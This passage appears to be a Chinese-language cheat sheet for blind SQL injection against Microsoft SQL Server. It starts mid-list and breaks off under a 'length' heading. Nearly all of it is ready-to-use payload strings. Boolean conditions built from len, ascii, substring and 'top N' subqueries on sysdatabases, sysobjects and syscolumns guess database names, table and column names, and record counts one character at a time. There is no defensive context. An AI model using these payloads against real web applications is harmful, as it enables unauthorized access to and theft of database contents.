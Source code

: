 长度：
and len(db_name(N))>1–

and (select len(name) from master.dbo.sysdatabases where dbid=1)>1

名称：

and (ascii(substring(db_name(N),1,1)))>97–

and (select count() from master.dbo.sysdatabases where dbid=N and ascii(substring(name,1,1))>90)=1

## ------获取数据库中表的信息
1、猜解数据库中表的数目

and (select count(name) from 数据库..sysobjects where xtype=’U’)>28–

2、逐个猜解数据库中表长度和名称

长度：

and len((select top 1 name from 数据库..sysobjects where xtype=’U’ and id not in(select top N id from 数据库..sysobjects where xtype=’U’)))>5–

名称：

and ascii(substring((select top 1 name from 数据库..sysobjects where xtype=’U’ and id not in(select top N id from 数据库..sysobjects where xtype=’U’)),1,1))>97

## ------获取表中列的信息
1、猜解表中列的数目

and (select count(name) from 数据库..syscolumns where id=(select id from 数据库..sysobjects where name=’指定表’))>1–

2、逐个猜解表中的列长度和名称

长度：

and len((select top 1 col_name(object_id(‘指定表’),N) from 数据库..sysobjects))>1–

and len((select name from 数据库..syscolumns where id =(select id from 数据库..sysobjects where name=’指定表’) and colid=N))>1–

名称：

and ascii(substring((select top 1 col_name(object_id(‘指定表’),N) from 数据库..sysobjects),1,1))>72–

and ascii(substring((select name from 数据库..syscolumns where id =(select id from 数据库..sysobjects where name=’指定表’) and colid=N),1,1))>73–

## ------获取数据
1、猜解表中记录的数目、数据长度和数据

数目：

and (select count(*) from 数据库..指定表)>1–

长度：
